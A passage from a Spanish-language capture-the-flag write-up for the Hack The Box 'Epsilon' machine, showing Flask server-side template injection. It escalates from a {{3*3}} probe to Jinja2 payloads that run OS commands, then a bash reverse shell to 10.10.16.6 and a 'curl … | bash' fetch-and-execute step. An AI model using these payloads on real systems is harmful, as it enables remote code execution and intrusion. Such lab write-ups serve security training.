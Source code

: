 Aparece un campo que puedo controlar como input desde ```BurpSuite```

<img src="/writeups/assets/img/Epsilon-htb/4.png" alt="">

Como se está empleando ```Flask``` por detrás, pruebo un SSTI. Capturo la petición desde ```BurpSuite``` e introduzco lo siguiente:

{%raw%}
```null
costume={{3*3}}&q=&addr=test
```
{%endraw%}

En la respuesta aparece el cómputo

```null
<p style="font-family: 'Indie Flower', cursive;">Your order of "9" has been placed successfully.</p>
```

Valido si es vulnerable a RCE

{%raw%}
```null
costume={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}&q=&addr=test
```
{%endraw%}

Se ejecuta sin problema

```null
<p style="font-family: 'Indie Flower', cursive;">Your order of "uid=1000(tom) gid=1000(tom) groups=1000(tom)" has been placed successfully.</p>
```

Me envío una reverse shell. Para ello, creo un archivo ```index.html``` que comparto con ```python``` y lo interpreto con ```bash```

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0<&1'
```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.134 - - [15/Jun/2023 16:01:28] "GET / HTTP/1.1" 200 -
```


{%raw%}
```null
costume={{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.6 | bash').read() }}&q=&addr=test
```
{%endraw%}
